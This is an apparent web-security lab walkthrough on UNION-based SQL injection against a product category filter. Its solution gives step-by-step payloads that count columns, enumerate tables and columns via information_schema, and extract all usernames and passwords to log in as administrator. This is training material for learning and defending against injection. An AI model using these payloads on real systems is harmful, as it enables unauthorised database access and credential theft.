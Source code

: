 Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

Solution

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

'+UNION+SELECT+'abc','def'--
Use the following payload to retrieve the list of tables in the database:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
Find the name of the table containing user credentials.
Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
Find the names of the columns containing usernames and passwords.
Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
Find the password for the administrator user, and use it to log in.
